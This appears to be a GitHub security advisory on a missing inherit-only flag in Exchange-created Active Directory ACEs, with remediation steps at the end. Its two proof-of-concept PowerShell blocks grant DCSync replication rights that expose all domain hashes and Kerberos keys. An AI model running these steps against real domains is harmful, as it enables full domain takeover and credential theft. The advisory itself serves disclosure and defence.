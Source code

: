 ## Domain object DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain.

DISCLAIMER: This issue has been responsibly disclosed to MSRC in October 2017 and after a few back and forth emails, they decided it was working as intended and would not fix it.

* Description of the issue

When preparing Exchange 2010/2013/2016 installation in Shared permissions (default) or RBAC split permissions, some ACEs are positioned on the domain object for the **Exchange Windows Permissions** security group.
This happens during the "Setup /PrepareAD" command.

Two ACEs on the domain object are missing the INHERIT_ONLY_ACE bit in the Flags field. 

This is their SDDL representation:

```
(OA;CI;DTWD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;<SID of EWP>)
(OA;CI;DTWD;;bf967aba-0de6-11d0-a285-00aa003049e2;<SID of EWP>)
```

Notice the missing 'IO' (inherit_only) flag. As a matter of fact, INHERITED_OBJECT_TYPE ACE effectively apply to the object itself when the inherit_only flag is not set.

This is how they are documented on Technet, so it is definitely missing that information:


| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / user | |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / inetOrgPerson | |



This is how they appear in the GUI (DSA console), which is also missing that information:

![DSA ACE view](DSA_ACE_view.png "DSA ACE view")

The issue can be confirmed in the "Effective Access" tab of the domain object when specifying EWP.

![DSA effective access](DSA_effective_access.png "DSA effective access")


Coincidentally, INHERITED_OBJECT_TYPE ACE created with DSA console always have the IO flag. Creating a 'self and specific descendents', INHERITED_OBJECT_TYPE ACE is only possible programmatically and only viewable programmatically.


* Technical consequence

The Allow permission to WriteDACL is granted to the Trustee on the domain object itself and not only on its user/inetOrgPerson descendants, effectively giving complete control to anyone with the **Exchange Windows Permissions** SID in its token.

* Expected behavior

The Allow permission to WriteDACL should only be given on child objects matching the INHERITED_OBJECT_TYPE Guid. It is supposed to only apply to user or inetOrgPerson classes.
This is not consistent with the other INHERITED_OBJECT_TYPE ACEs on the domain object for the same Trustee, which all have the INHERIT_ONLY_ACE bit in the Flags field.


* Security Consequence

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All extended rights on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets (Kerberos keys, hashes, etc.).

You can control the SID of the EWP group from **Organization management**, from **Account operators** or from any Exchange server.
Interestingly, the RBAC system is proxified through EWP so a privilege escalation is possible from the *Active Directory Permissions* RBAC role to compromise the entire prepared Active Directory domain.


* Proof of concept 1: Set-Acl (or with DSA console)

From an **Organization Management** member account, add yourself to **Exchange Windows Permissions**.
This is possible by default (see the above technet page).

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

RELOG to update groups in your token then give yourself Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All extended rights on the domain object.

```
$acl = get-acl "ad:DC=test,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=test,DC=local"
```

Optionally, if PowerView is available, the same can be achieved with its `Add-DomainObjectAcl` cmdlet using the flag `-Rights DCSync`.


* Proof of concept 2: RBAC Add-ADPermission

The following Powershell code, executed by a user account with the RBAC role *Active Directory Permissions*, sets the Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All extended rights on the domain object.

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
Add-ADPermission "DC=test,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes,Ds-Replication-Get-Changes-All
```

* Workaround fix

Use the Fix-DomainObjectDACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the two faulty ACE, this can be done by any user. Use with -Fix switch with Domain Admins privileges to set the InheritOnly missing flags. 
Use with -Restore switch to restore the two previously fixed ACEs to their original, *vulnerable* state. An SDDL backup is made everytime the script is run. 


Another option is doing it manually with LDP. Bind as a Domain Admin account with the usual precautions, as you will change the domain object DACL.
Locate the 2 faulty ACE in the DACL of the domain object: you can sort by Trustee to see Exchange Windows Permissions, there will only be 2 ACE with "Write DACL,..." Rights.
Check the 'Inherit only' box in their ACE flags field. 


